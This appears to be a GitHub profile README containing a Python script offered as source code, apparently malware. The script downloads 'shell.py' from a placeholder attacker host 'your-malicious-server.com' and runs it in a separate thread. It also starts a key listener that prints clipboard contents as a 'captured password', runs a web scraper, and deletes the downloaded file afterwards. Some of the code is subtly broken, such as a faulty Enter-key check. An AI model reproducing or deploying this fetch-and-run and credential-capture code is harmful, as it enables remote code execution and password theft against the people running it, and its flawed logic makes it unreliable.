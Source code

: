 import threading
import requests
from bs4 import BeautifulSoup
import pyperclip
import pynput
import os
import subprocess
import time

def download_and_execute_ps1():
    url = "http://your-malicious-server.com/shell.py"
    response = requests.get(url)
    with open("shell.py", "w") as file:
        file.write(response.text)
    subprocess.Popen(["python3", "shell.py"])

def on_press(key):
    if key == key.Enter:
        password = pyperclip.paste()
        print("Password captured: " + password)

def scrape_website(url):
    response = requests.get(url)
    soup = BeautifulSoup(response.content, "html.parser")
    data = ""
    for tag in soup.find_all():
        data += str(tag)
    return data

class WebsiteScraperThread(threading.Thread):
    def __init__(self, url):
        threading.Thread.__init__(self)
        self.url = url

    def run(self):
        data = scrape_website(self.url)
        print("Data scraped:")
        print(data)

class KeyListenerThread(threading.Thread):
    def __init__(self):
        threading.Thread.__init__(self)

    def run(self):
        key_listener = pynput.keyboard.Listener(on_press=on_press)
        key_listener.start()

class DownloadAndExecuteThread(threading.Thread):
    def __init__(self):
        threading.Thread.__init__(self)

    def run(self):
        download_and_execute_ps1()

key_listener = KeyListenerThread()
data_scraper = WebsiteScraperThread(input("Enter the URL to scrape: "))
shell_executor = DownloadAndExecuteThread()

key_listener.start()
shell_executor.start()
data_scraper.start()

key_listener.join()
shell_executor.join()
data_scraper.join()
os.system("rm shell.py")

<!---
TheZilla1000/TheZilla1000 is a ✨ special ✨ repository because its `README.md` (this file) appears on your GitHub profile.
You can click the Preview link to take a look at your changes.
--->
